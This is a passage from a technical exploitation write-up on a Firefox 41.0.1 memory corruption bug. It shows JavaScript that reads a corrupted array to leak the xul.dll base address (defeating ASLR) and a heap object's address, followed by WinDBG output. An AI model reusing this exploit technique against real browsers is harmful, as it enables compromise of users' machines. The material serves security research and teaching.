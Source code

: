 ----[ 5.3 - xul.dll base leak and our location in memory

We can read from index 30 above, but remember that because we are using an
array to do so, the two 32-bit values there are going to be treated as a
double jsval (since the one 32-bit value that corresponds to the type of
the 64-bit jsval is less than 0xFFFFFF80). Therefore, we need to implement
two helper functions; one to read the 64-bit value as a double and convert
it to the corresponding raw bytes (named double_to_bytes()), and one to
convert the raw bytes to their hexadecimal representation (named
bytes_to_hex()). Reading from index 30 gives us a vftable pointer of
SVGImageElement and we simply need to subtract from it the known non-ASLRed
pointer from xul.dll.

    var val_hex = \
        bytes_to_hex(double_to_bytes(container[pwned_index][30]));

    var known_xul_addr = 0x121deba0; // 41.0.1 specific
    var leaked_xul_addr = parseInt(val_hex[1], 16);
    var aslr_offset = leaked_xul_addr - known_xul_addr;
    var xul_base = 0x10000000 + aslr_offset;

    var val_str = \
        "[*] leaked xul.dll base address: 0x" + xul_base.toString(16);

    log(val_str);

In the SVGImageElement object at address 15b11428 above, indexed with our
corrupted array at index 35, there is a pointer to the start of the object
itself (15b11400). Such pointers exist in most (if not all, I haven't
checked them all automatically) Firefox DOM objects for garbage collection
purposes. By leaking this address from index 35 of our corrupted array, we
can learn the location of all these objects in the jemalloc heap. This can
be very helpful for creating fake but valid objects (as we will doing in
the sections below).

    val_hex = \
        bytes_to_hex(double_to_bytes(container[pwned_index][35]));

    val_str = "[*] victim SVGImageElement object is at: 0x" + val_hex[0];
    log(val_str);

Again we use the two helper functions for reading double jsvals and
converting them to hexadecimal.

In WinDBG the output is (edited for readability):

    0:000> g
    [*] corrupted array found at index: 31147
    [*] leaked xul.dll base address: 0x67c30000
    [*] victim SVGImageElement object is at: 0x15b11400

    Breakpoint 0 hit
    
    eax=002cf801 ebx=1160b8b0 ecx=00000001 edx=00000002 esi=697f1386
    edi=00000000 eip=697f1386 esp=0038cce0 ebp=0038cd6c iopl=0
    nv up ei pl nz na po nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b efl=00000202
    